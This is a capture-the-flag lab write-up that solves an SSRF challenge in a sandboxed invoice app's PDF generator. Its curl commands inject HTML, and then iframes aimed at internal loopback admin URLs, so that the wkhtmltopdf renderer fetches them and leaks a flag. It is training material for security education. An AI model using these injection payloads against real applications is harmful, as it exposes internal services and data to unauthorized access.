


# Task 4. Let's see if our invoice generator spills the beans and lets you into the admin zone!


## **Task Description**


Unraveling the SSRF Mystery in PDF Generation!


Welcome to the next stage of your security journey, set against the backdrop of our newly implemented invoice generation feature. Your mission now is to dive into the intricacies of SSRF vulnerabilities and test the robustness of our security measures.

After setting up our website, we developed an invoice generation feature. But is it safe? Can you access admin through this feature?

This challenge focuses on the SSRF vulnerability within the PDF generation functionality. By understanding how our invoice generation interacts with other parts of the application, you'll explore potential entry points for SSRF exploits.

Your goal is to exploit this vulnerability and gain access to the admin page.

Target Application: ShopAdmin
Initial Endpoint:

`http://web0x08.hbtn/app5/`

Useful instructions:
1. Log into ShopAdmin, it is a shopping website, there is a lot of article.
2. The challenge is about the SSRF vulnerability in pdf generation.

Repo:

GitHub repository: dlh-cyber_security
Directory: web_application_security/0x08_ssrf
File: 4-flag.txt


## **Solution**


- Start sandbox `cyber_websec_0x08`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.83.70 web0x08.hbtn" | sudo tee -a /etc/hosts
```


Let's start exploring this new target.

**Step 1 — Browse the app5 shop and find the invoice/PDF generation feature**

In your browser (DevTools open, Network tab):

1. Navigate to `http://web0x08.hbtn/app5/`
2. Browse to a product or your cart/order area and look for any "Generate Invoice", "Download PDF", "Print Invoice" or similar feature.
3. Trigger that feature and capture the resulting request (especially its POST body or URL parameters) in the Network tab.




The request as curl command:

```bash
curl 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://web0x08.hbtn' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://web0x08.hbtn/app5/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'handle=x.pdf&insert='
```

A name should be entered in the form, it will be the customer name on the invoice. The generated PDF will be called `output.pdf` and can be downloaded clicking on the link. This is the result: [output.pdf](./output.pdf)





There is a **second, hidden parameter `insert`** (separate from the visible "Enter name" field, which maps to `handle`). That name strongly suggests it's meant to literally insert content into the invoice template — a classic injection point for an SSRF-via-PDF-generation challenge (if the backend renders HTML to PDF via something like wkhtmltopdf or a headless browser, injected HTML like `<iframe>` or `` tags could trigger server-side requests).

**Step 2 — Test what `insert` does**

```bash
curl -sS -i 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=test.pdf' \
  --data-urlencode 'insert=<b>HELLO_INJECTION_TEST</b>'
```

Then download and show me the resulting PDF (or just fetch it directly):

```bash
curl -sS -o ./Downloads/test_output.pdf 'http://web0x08.hbtn/app5/output.pdf'
file ./Downloads/test_output.pdf
```


**Output:**

```html
curl -sS -i 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=test.pdf' \
  --data-urlencode 'insert=<b>HELLO_INJECTION_TEST</b>'

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Wed, 11 Nov 2026 12:28:20 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Invoice Generation</title>
    <link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <header>
        <h1>Invoice Generation Lab</h1>
    </header>
    <div class="container">
        <form method="post">
            <label for="handle">Enter name:</label>
            <input type="text" id="handle" name="handle">
            <button type="submit" name="insert">Generate PDF</button>
        </form>
        <p>Your PDF has been generated. <a href="output.pdf">Download it here</a>.</p>    </div>
</body>
</html>
```

Download the PDF:

```bash
curl -sS -o ./Downloads/test_output.pdf 'http://web0x08.hbtn/app5/output.pdf'
file ./Downloads/test_output.pdf

./Downloads/test_output.pdf: PDF document, version 1.4, 1 page(s)
```

The resulting PDF: [test_output.pdf](./test_output.pdf)

---

Let's test if `insert` is meant to be a URL (e.g., for an embedded logo/image or an HTML include), which is the classic SSRF vector in PDF generators.

**Step 3 — Test `insert` as a URL pointing at the known admin target**

```bash
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=ssrf-test' \
  --data-urlencode 'insert=http://web0x08.hbtn:8080/admin'

curl -sS -o ./Downloads/test2.pdf 'http://web0x08.hbtn/app5/output.pdf'
```


**Output:**

```html
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=ssrf-test' \
  --data-urlencode 'insert=http://web0x08.hbtn:8080/admin'

curl -sS -o ./Downloads/test2.pdf 'http://web0x08.hbtn/app5/output.pdf'

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Invoice Generation</title>
    <link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <header>
        <h1>Invoice Generation Lab</h1>
    </header>
    <div class="container">
        <form method="post">
            <label for="handle">Enter name:</label>
            <input type="text" id="handle" name="handle">
            <button type="submit" name="insert">Generate PDF</button>
        </form>
        <p>Your PDF has been generated. <a href="output.pdf">Download it here</a>.</p>    </div>
</body>
</html>
```

The resulting PDF: [test2.pdf](./Downloads/test2.pdf)

---

Good thought, but "insert" might just be an artifact of the submit button's `name` attribute (no real backend effect, as we've now tested twice with no change). Let's instead test injection in **`handle`** — it's the field that actually appears in the PDF content, so if the backend renders HTML→PDF without escaping, this is our injection point.

**Step 4 — Test HTML injection via `handle`**

```bash
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<u>Underline_INJECTION_TEST</u>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test3.pdf 'http://web0x08.hbtn/app5/output.pdf'
```


**Output:**

```html
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<u>Underline_INJECTION_TEST</u>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test3.pdf 'http://web0x08.hbtn/app5/output.pdf'

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Invoice Generation</title>
    <link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <header>
        <h1>Invoice Generation Lab</h1>
    </header>
    <div class="container">
        <form method="post">
            <label for="handle">Enter name:</label>
            <input type="text" id="handle" name="handle">
            <button type="submit" name="insert">Generate PDF</button>
        </form>
        <p>Your PDF has been generated. <a href="output.pdf">Download it here</a>.</p>    </div>
</body>
</html>
```

We need the `insert` parameter, without that it won't generate new PDF. \
The resulting PDF: [test3.pdf](./Downloads/test3.pdf)

---

Confirmed — "Underline_INJECTION_TEST" rendered **underlined**, proving raw HTML injection into the PDF template (no escaping). This is likely rendered via a headless browser (Puppeteer/similar) or wkhtmltopdf, both of which support `<iframe>`. Let's try embedding the known internal admin target directly.

**Step 5 — Inject an iframe pointing at the internal admin page**

```bash
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<iframe src="http://web0x08.hbtn:8080/admin" width="700" height="500"></iframe>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test4.pdf 'http://web0x08.hbtn/app5/output.pdf'
```

**Output:**

```html
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<iframe src="http://web0x08.hbtn:8080/admin" width="700" height="500"></iframe>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test4.pdf 'http://web0x08.hbtn/app5/output.pdf'

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Invoice Generation</title>
    <link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <header>
        <h1>Invoice Generation Lab</h1>
    </header>
    <div class="container">
        <form method="post">
            <label for="handle">Enter name:</label>
            <input type="text" id="handle" name="handle">
            <button type="submit" name="insert">Generate PDF</button>
        </form>
        <p>Your PDF has been generated. <a href="output.pdf">Download it here</a>.</p>    </div>
</body>
</html>
```

The resulting PDF: [test4.pdf](./Downloads/test4.pdf)

---

The injection works and leaked something important: the PDF renderer is **wkhtmltopdf** (QtWebKit, "QtNetwork Error 3" is its signature error), and it says `Host web0x08.hbtn not found` — meaning this renderer runs in an environment where that hostname doesn't resolve (different container/network namespace than the main app). We should use `127.0.0.1` directly instead.

**Step 6 — Retry with loopback IP instead of hostname**

```bash
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<iframe src="http://127.0.0.1:80/admin/list-of-items" width="700" height="500"></iframe>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test5.pdf 'http://web0x08.hbtn/app5/output.pdf'
```


**Output:**

```html
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<iframe src="http://127.0.0.1:80/admin/list-of-items" width="700" height="500"></iframe>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test5.pdf 'http://web0x08.hbtn/app5/output.pdf'

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Invoice Generation</title>
    <link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <header>
        <h1>Invoice Generation Lab</h1>
    </header>
    <div class="container">
        <form method="post">
            <label for="handle">Enter name:</label>
            <input type="text" id="handle" name="handle">
            <button type="submit" name="insert">Generate PDF</button>
        </form>
        <p>Your PDF has been generated. <a href="output.pdf">Download it here</a>.</p>    </div>
</body>
</html>
```

The resulting PDF: [test5.pdf](./Downloads/test5.pdf)

This pdf has a flag_0

| ID | Name   | Description                          |
|----|--------|--------------------------------------|
| 1  | FLAG_0 | 1871c80b1bc83b3b6f45582d53e5a840     |

and has **dasboard** and **items** links:
- http://127.0.0.1/admin/dashboard
- http://127.0.0.1/admin/list-of-items


---

We've got SSRF working — this hit task 0's leftover admin panel (still running on port 80 internally), not app5's own. Let's check the raw page source for hints about app5's actual internal structure, same as we did for earlier tasks.

**Step 7 — Check raw page source for clues**

```bash
curl -sS 'http://web0x08.hbtn/app5/' -o /tmp/app5.html
cat /tmp/app5.html
echo "---"
grep -n -oE '<script src="[^"]+"' /tmp/app5.html
echo "---"
grep -n -oE 'href="[^"]+"' /tmp/app5.html
```


**Output:**

```html
curl -sS 'http://web0x08.hbtn/app5/' -o /tmp/app5.html
cat /tmp/app5.html
echo "---"
grep -n -oE '<script src="[^"]+"' /tmp/app5.html
echo "---"
grep -n -oE 'href="[^"]+"' /tmp/app5.html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Invoice Generation</title>
    <link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <header>
        <h1>Invoice Generation Lab</h1>
    </header>
    <div class="container">
        <form method="post">
            <label for="handle">Enter name:</label>
            <input type="text" id="handle" name="handle">
            <button type="submit" name="insert">Generate PDF</button>
        </form>
            </div>
</body>
</html>
---
---
6:href="css/styles.css"
```

---

Let's probe several candidate internal targets for app5's own admin area in one shot — we can embed multiple iframes in a single submission (each a different port/path guess) to save round-trips.

**Step 8 — Probe multiple candidates at once**

```bash
curl -sS 'http://web0x08.hbtn/app5/' \
  -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'handle=<p>A:<iframe src="http://127.0.0.1:3004/admin/list-of-items" width="600" height="200"></iframe></p><p>B:<iframe src="http://127.0.0.1/app5/admin/list-of-items" width="600" height="200"></iframe></p><p>C:<iframe src="http://127.0.0.1:8080/app5/admin/list-of-items" width="600" height="200"></iframe></p><p>D:<iframe src="http://127.0.0.1:8081/admin/list-of-items" width="600" height="200"></iframe></p>' \
  --data-urlencode 'insert='

curl -sS -o ./Downloads/test6.pdf 'http://web0x08.hbtn/app5/output.pdf'
```


The resulting PDF: [test6.pdf](./Downloads/test6.pdf)


---

**Step 9 — Let's give a try sending the Flag_0**


```bash
echo 1871c80b1bc83b3b6f45582d53e5a840 > 4-flag.txt
git add .
git commit -m "4-flag.txt"
git push
```


